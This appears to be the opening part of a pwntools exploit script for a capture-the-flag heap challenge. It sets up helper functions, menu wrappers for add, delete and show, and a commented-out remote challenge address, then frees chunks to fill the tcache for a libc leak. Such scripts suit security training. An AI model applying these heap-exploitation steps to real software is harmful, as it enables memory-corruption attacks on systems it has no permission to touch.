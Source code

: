 ```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

#p=remote('47.100.137.175',30134)
p=process("./pwn")
libc = ELF('./libc-2.31.so')
elf = ELF('./pwn')

def duan():
    gdb.attach(p)
    pause() 

menu = 'Your choice:'

def add(index, size, content):
    p.sendlineafter(menu, '1')
    p.sendlineafter('Index: ', str(index))
    p.sendlineafter('Size: ', str(size))
    p.sendafter('Content: ', content)


def delete(index):
    p.sendlineafter(menu, '3')
    p.sendlineafter('Index: ', str(index))

def show(index):
    p.sendlineafter(menu, '2')
    p.sendlineafter('Index: ', str(index))

for i in range(9):
    add(i,0x80,'aaaa')

for i in range(8):
    delete(7-i)

```